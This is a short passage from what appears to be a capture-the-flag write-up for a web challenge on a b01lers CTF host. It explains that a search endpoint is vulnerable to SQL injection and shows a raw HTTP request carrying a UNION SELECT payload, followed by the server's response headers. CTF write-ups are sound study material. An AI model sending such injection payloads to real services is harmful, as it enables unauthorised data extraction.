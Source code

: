 This method receives a string in input and uses it to contact a remote service, i.e. `http://web.ctf.b01lers.com:1001/query?search=<param>` endpoint, where requests are done to retrieve data.

The remote service is vulnerable to SQL injection.

GET /query?search=amazonis_planitia%20union%20select%201%2C%202&{}&_=1584147989793 HTTP/1.1
Host: web.ctf.b01lers.com:1001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.ctf.b01lers.com:1001/

HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 4336
Server: Werkzeug/1.0.0 Python/3.7.3
Date: Sun, 15 Mar 2020 13:24:28 GMT
